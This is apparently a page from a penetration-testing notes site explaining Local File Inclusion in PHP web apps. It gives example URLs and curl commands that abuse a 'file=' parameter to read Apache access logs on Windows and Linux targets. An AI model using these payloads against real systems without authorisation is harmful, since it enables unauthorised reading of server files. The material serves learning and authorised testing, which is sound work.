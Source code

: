 ```yaml
---
title: LFI 
layout: default
nav_order: 2
parent: Web Apps
grand_parent: Exploitation
---
```


# LFI (Local File Inclusion)
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }
1. TOC
{:toc}

---

### Local File Inclusion - Windows
LFI is a vulnerability that can be used to read files on the target machine through the hosted webapp 

1. Checking for LFI:
* Sometimes, the `file=` parameter of PHP site is a sign that LFI can be used

Read file
```bash
http://$IP/menu.php?file=c:\xampp\apache\logs\access.log
```

Download file contents
```bash
curl http://$IP/menu.php?file=c:\xampp\apache\logs\access.log
```

### Local File Inclusion - Linux
Read file
```bash
http://$IP/menu.php?file=/var/log/apache2/access.log
```

Download file content
```bash
curl http://$IP/menu.php?file=/var/log/apache2/access.log
```

